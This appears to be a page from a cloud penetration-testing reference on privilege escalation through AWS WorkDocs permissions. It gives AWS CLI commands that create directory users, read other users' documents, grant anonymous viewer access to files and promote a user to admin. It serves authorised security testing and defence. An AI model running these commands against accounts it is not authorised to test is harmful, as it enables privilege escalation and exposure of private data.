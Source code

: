 # AWS - WorkDocs Privesc

## WorkDocs

For more info about WorkDocs check:

{{#ref}}
../aws-services/aws-directory-services-workdocs-enum.md
{{#endref}}

### `workdocs:CreateUser`

Create a user inside the Directory indicated, then you will have access to both WorkDocs and AD:

```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```

### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

The files might contain sensitive information, read them:

```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```

### `workdocs:AddResourcePermissions`

If you don't have access to read something, you can just grant it

```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```

### `workdocs:AddUserToGroup`

You can make a user admin by setting it in the group ZOCALO_ADMIN.\
For that follow the instructions from [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html)

Login with that user in workdoc and access the admin panel in `/workdocs/index.html#/admin`

I didn't find any way to do this from the cli.
